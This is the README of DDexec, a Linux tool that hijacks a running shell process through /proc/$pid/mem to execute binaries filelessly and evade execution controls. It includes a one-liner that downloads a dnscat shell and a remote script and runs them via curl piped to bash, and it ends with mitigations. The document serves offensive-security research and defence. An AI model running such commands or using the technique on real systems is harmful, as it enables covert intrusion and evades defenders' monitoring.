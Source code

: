# DDexec
## Context
In Linux in order to run a program it must exist as a file, it must be accessible in some way through the file system hierarchy (this is just how `execve()` works). This file may reside on disk or in ram (tmpfs, memfd) but you need a filepath. This has made very easy to control what is run on a Linux system, it makes easy to detect threats and attacker's tools or to prevent them from trying to execute anything of theirs at all (_e. g._ not allowing unprivileged users to place executable files anywhere).

But this technique is here to change all of this. If you can not start the process you want... then you hijack one already existing.

## Usage
Pipe into the `ddexec.sh` script thebinary you want to run (**without** newlines). The arguments for the script are the arguments for the program (starting with `argv[0]`).

Here, try this:
```
bash ddexec.sh ls -lA < /bin/ls
```
which is easily weaponizable with something like - dnscat :D 
```
curl -L --output - https://github.com/ralvares/dns-shell/blob/main/dnscat?raw=true | bash <(curl https://raw.githubusercontent.com/ralvares/dns-shell/main/ddexec.sh) /bin/entrypoint -h
```

## Dependencies
This script depends on the following tools to work.
```
bash | zsh | ash (busybox)
tail | dd | hexdump | cmp | xxd | any other program that allows us to seek through a fd
```

## The technique
If you are able to modify arbitrarily the memory of a process then you can take over it. This can be used to hijack an already existing process and replace it with another program. We can achieve this either by using the `ptrace()` syscall (which requires you to have the ability to execute syscalls or to have gdb available on the system) or, more interestingly, writing to `/proc/$pid/mem`.

The file `/proc/$pid/mem` is a one-to-one mapping of the userland's address space of a process (_e. g._ from `0x0` to `0x7ffffffffffff000` in x86-64). This means that reading from or writing to this file at an offset `x` is the same as reading from or modifying the contents at the virtual address `x`.

Now, we have three basic problems to face:
- In general, only root and the program owner of the file may modify it.
- ASLR.
- If we try to read or write to an address not mapped in the address space of the program we will get an I/O error.

But we have clever solutions:
- Most shell interpreters allow the creation of file descriptors that will then be inherited by child processes. We can create a fd pointing to the `mem` file of the sell with write permissions... so child processes that use that fd will be able to modify the shell's memory.
- ASLR isn't even a problem, we can check the shell's `maps` file from the procfs in order to gain information about the address layout of the process.
- So we need to `lseek()` over the file. From the shell this can be done using a few common binaries, like `tail` or the infamous `dd`, see the *EverythingExec* section for more information.

### In more detail
The steps are relatively easy and do not require any kind of expertise to understand them:
* Parse the binary we want to run and the loader to find out what mappings they need. Then craft a *shell*code that will perform, broadly speaking, the same steps that the kernel does upon each call to `execve()`:
    * Create said mappings.
    * Read the binaries into them.
    * Set up permissions.
    * Finally initialize the stack with the arguments for the program and place the auxiliary vector (needed by the loader).
    * Jump into the loader and let it do the rest (load and link libraries needed by the program).
* Obtain from the `syscall` file the address to which the process will return after the syscall it is currently executing.
* Overwrite that place, which will be executable, with our shellcode (through `mem` we can modify unwritable pages).
* Pass the program we want to run to the stdin of the process (will be `read()` by said *shell*code).
* At this point it is up to the loader to load the necessary libraries for our program and jump into it.

Oh, and all of this must be done in s**hell** scripting, or what would be the point?

## Contribute
Well, there are a couple of TODOs. Besides this, you may have noticed that I do not know much about shell scripting (I am more of a C programmer myself) and I am sure I must have won a decade worth of ["useless use of a cat"](https://porkmail.org/era/unix/award.html) awards (no cats were harmed in the making of this tool) and the rest of variants just with a fraction of this project.

- Improve code style and performance.
- Port to other shells.
- Allow run the program with a non-empty environment.

Anyway, **all contribution is welcome**. Feel free to fork and PR.

## Credit
Recently I have come to know that [Sektor7](https://www.sektor7.net) had already [published](https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md) this almost-exact same technique on their blog a few years ago.

Despite this, I thought this technique independently in, now almost, its entirety. Probably the smarter piece of this technique is the use of the inherited file descriptor, idea provided by [David Buchanan](https://github.com/DavidBuchanan314) (inspired, I think, by Sektor7's blog) almost a year before I even started thinking about this topic. This alone not only makes the technique much simpler and neat, it also makes it far deadlier by eliminating the need to disable ASLR. His [tweet](https://twitter.com/David3141593/status/1386661837073174532) also made me realize how *stupid* I was for not noticing that `mem` allowed to write to non-writable pages, hence making the ROP unnecessary... This ultimately also has the desired effect of making this significantly easier to port to other ISAs.

Either way, I hope I will be able to spread this technique much further, which is what matters.

I would like to thank [Carlos Polop](https://github.com/carlospolop), a great pentester and better friend, for making me think about this subject, and for his helpful feedback and interest, oh and I also owe him the name of the project. I am sure that if you are reading this you have already used his awesome tool [PEASS](https://github.com/carlospolop/PEASS-ng) and found helpful some article in his book [HackTricks](https://book.hacktricks.xyz). I also thank him for helping me with the talk at the [RootedCon 2022](https://rootedcon.com).

## Now what?
You may:
- Go distroless.
- Use a kernel compiled without support for the `mem` file.
- Detect any program opening or writing to the `mem` file.

## Questions? Death threats?
Feel free to send me an email to [yagogl@protonmail.com](mailto:yagogl@protonmail.com) or to contact me through [Twitter](https://twitter.com/arget1313).
